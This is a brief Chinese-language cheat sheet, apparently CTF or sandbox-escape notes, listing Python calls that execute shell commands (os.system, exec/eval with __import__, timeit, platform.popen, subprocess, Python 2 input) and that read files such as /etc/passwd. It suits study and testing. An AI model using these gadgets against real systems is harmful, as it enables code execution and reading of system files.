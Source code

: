 python2中可用使用input执行命令
```python
input(__import__('os').system('dir'))
```

一些任意代码执行以及文件读取的函数

代码执行
```python
import os
os.system('ipconfig')

exec('__import__("os").system("ipconfig")')
eval('__import__("os").system("ipconfig")')

import timeit
timeit.timeit("__import__('os').system('ipconfig')",number=1)
import platform
platform.popen('ipconfig').read()
import subprocess
subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE,stderr=subprocess.STDOUT).stdout.read()

```

文件读取
```python
file('/etc/passwd').read()  #python2
open('/etc/passwd').read()
import codecs
codecs.open('/etc/passwd').read()
```